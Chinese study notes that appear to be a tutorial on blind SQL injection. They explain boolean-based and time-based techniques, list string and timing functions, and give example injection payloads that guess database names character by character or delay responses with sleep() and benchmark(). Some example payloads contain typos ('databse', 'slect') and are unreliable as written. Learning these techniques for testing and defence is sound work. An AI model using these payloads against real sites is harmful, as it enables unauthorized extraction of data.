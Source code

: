 # 盲注

## 一、适用场景

- 没有回显的时候

## 二、Boolean型盲注

- Boolean是基于真假的判断，不管输入什么，结果都只返回真或假两种情况。Boolean型盲注的关键在于通过表达式结果与已知值进行逐个对比，根据对比结果判断正确与否。

- 盲注有时候需要一个一个字符猜，因此一些字符串操作的函数经常被应用到

  ```
  length()：返回查询字符串长度
  mid(column_name,start,length)：截取字符串
  substr(string,start,length)：截取字符串
  Left(string,n)：截取字符串
  ORD()：返回字符的ASCII码
  ASCII()：返回字符的ASCII码
  ```

  例如：

  ```
  1 and length(database())=5                先盲注猜长度
  1 and substr(databse(),2,1)='e'--+        如果正确响应结果，说明数据可名的第二个字符是e
  1 and (slect substr (database(),1,1)='l') 可以使用select构造复杂sql语句
  ```

- 使用burpsuite进行遍历，可以获取正确信息

## 三、时间型盲注

- Boolean盲注还是能通过页面返回的对错来判断，当页面任何信息都不返回的时候，就需要使用时间盲注。
- 时间盲注是在布尔盲注的基础上，首先经过真假的判断，然后在真假判断上添加时间的判断。
- 时间盲注所需要函数大多与布尔盲注相同。

```
length()：返回查询字符串长度
mid(column_name,start,length)：截取字符串
substr(string,start,length)：截取字符串
Left(string,n)：截取字符串
ORD()：返回字符的ASCII码
ASCII()：返回字符的ASCII码

if()：逻辑判断
sleep()：控制时间
benchmark()：控制时间
```

例如：

```
1 and if(length(database())=5,sleep(3),1)           若数据库名长度为5则页面响应时间大于3秒
1 and (select benchmark(50000000,(select username from user limit 1)))
```

